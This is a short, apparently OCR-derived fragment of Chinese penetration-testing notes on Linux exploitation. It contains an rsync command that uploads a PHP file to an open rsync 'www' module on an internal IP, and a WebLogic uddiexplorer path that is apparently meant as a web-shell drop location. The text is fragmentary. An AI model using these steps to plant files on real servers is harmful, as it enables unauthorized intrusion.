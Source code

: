 linux 利用方法

rsync上传    rsync -avz noop.php 192.168.49.143::www/
             11.php

uddiexplore
/home/weblogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/uddiexplorer/5f6ebw/war/
